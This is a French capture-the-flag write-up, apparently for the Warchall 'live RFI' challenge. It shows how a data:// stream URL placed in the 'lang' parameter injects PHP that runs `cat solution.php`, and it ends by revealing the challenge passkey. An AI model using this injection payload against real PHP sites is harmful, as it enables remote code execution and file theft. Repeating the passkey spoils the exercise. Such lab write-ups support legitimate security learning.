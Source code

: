 **RFI (Remote File Inclusion)**  est une vulnérabilité de sécurité qui peut survenir dans les applications web en utilisant Data Stream.
Il mentionne l'utilisation de *Data Stream* avec l'exemple suivant : `data://text/plain,<?php echo file_get_contents("solution.php"); ?>`.

Pour notre probleme, il faut voir le contenu de fichier `solution.php`

**Etape à suivre**

1. Allez dans le lien principal de [RFI](https://rfi.warchall.net/)
2. Cliquer sur le logo de langue (choix de langue) => exemple : [RFI langue](https://rfi.warchall.net/index.php?lang=en)
3. Effacer "en" et remplacer par la methode d'attaque Data stream => `data://text/plain,<?php echo`cat solution.php`; ?>`
[lien complet](https://rfi.warchall.net/index.php?lang=data://text/plain,%3C?php%20echo`cat%20solution.php`;%20?%3E)
4. Après, il donne ça : 
````sh
NOTHING HERE????

Warning: Trying to access array offset on value of type int in /home/level/15_live_rfi/www/index.php on line 36

Warning: Trying to access array offset on value of type int in /home/level/15_live_rfi/www/index.php on line 36
````
=> Il suggère que c'est pas là !!!(Nothing here???)

5. Donc, Il faut inspecter ce sitepour voir si la solution cache là (^,^)
   On a trouver qu'il est vraiement là
   
````sh
<!--?php return 'Low_H4NGING_Fruit'; ?-->
````

The passkey is : **Low_H4NGING_Fruit**







